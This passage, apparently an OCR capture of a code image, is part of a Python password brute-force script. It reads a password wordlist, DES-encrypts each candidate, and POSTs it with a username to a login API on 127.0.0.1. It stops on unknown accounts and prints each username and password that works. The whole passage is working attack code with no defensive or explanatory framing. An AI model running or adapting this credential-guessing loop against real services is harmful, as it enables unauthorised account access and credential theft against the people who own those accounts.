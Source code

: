 ```plain
                    # print(desUsername)

                    pwd = pwds.readlines()
                    for p in pwd:
                        passwd = p.strip()
                        print(passwd)
                        desPassword = mzDes(a,passwd)
                        print(desPassword)




                        burp0_url = "http://127.0.0.1/api/source/AlbdUKmU/finish"

                        burp0_headers = {"User-Agent": "Mozilla/5.0 Firefox", "Accept": "application/json, text/plain, */*", "X-Requested-With":"XMLHttpRequest", "Accept-Language": "zh-CN,zh;q=0.9", "Content-Type": "application/json;charset=UTF-8", "Origin": "http://127.0.0.1/", "Connection": "close", "Referer": "http://127.0.0.1/login"}
                        burp0_data = {"login_name": uname, "password": desPassword,}

                        rsp = requests.post(burp0_url, headers=burp0_headers, data=json.dumps(burp0_data))

                        if rsp.json()['status'] == 'error':
                            print('error')
                            code = rsp.json()['code']
                            print(code)
                            if code == "UNKNOWN_ACCOUNT":
                                break

                            print("-------------------")
                        else:
                            successCount=successCount+1
                            print("sucess:\n\tuname:"+uname+"\n\tpassword:"+passwd)
                            print("*****正确的密码********")
                            print(rsp.content)

print(successCount)
```
